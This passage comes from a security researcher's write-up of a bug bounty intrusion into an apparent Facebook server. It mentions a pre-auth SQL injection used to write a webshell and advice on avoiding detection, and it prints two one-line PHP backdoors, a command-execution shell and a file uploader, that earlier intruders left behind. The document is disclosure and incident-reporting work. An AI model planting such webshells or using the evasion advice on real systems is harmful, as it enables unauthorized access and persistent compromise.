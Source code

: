 * CVE-2016-2350
* CVE-2016-2351
* CVE-2016-2352
* CVE-2016-2353

More details will be published after full disclosure policy!

![shell on facebook](/images/news/20160421/2.jpg)
*↑ Using Pre-Auth SQL Injection to Write Webshell*

<br>
After taking control of the server successfully, the first thing is to check whether the server environment is friendly to you. To stay on the server longer, you have to be familiar with the environments, restrictions, logs, etc and try hard not to be detected. :P  

There are some restrictions on the server:  

 1. Firewall outbound connection unavailable, including TCP, UDP, port 53, 80 and 443  
 2. Remote Syslog server  
 3. Auditd logs enabled  

Although the outbound connection was not available, but it looked like ICMP Tunnel was working. Nevertheless, this was only a Bug Bounty Program, we could simply control the server with a webshell.  

----------

### Was There Something Strange?  

While collecting vulnerability details and evidences for reporting to Facebook, I found some strange things on web log.  


First of all I found some strange PHP error messages in "**/var/opt/apache/php\_error\_log**"  
These error messages seemed to be caused by modifying codes online?  

![PHP error log](/images/news/20160421/3.jpg)
*↑ PHP error log*

<br>
I followed the PHP paths in error messages and ended up with discovering suspicious WEBSHELL files left by previous "visitors".  

![Webshell on facebook server](/images/news/20160421/4.jpg)
*↑ Webshell on facebook server*

some contents of the files are as follows:  

**sshpass**  
<pre><code>Right, THAT <a href='http://linux.die.net/man/1/sshpass'>sshpass</a></code></pre>
**bN3d10Aw.php**
{% highlight php %}
<?php echo shell_exec($_GET['c']); ?>
{% endhighlight %}

**uploader.php**
{% highlight php %}
<?php move_uploaded_file($_FILES["f]["tmp_name"], basename($_FILES["f"]["name"])); ?>
{% endhighlight %}
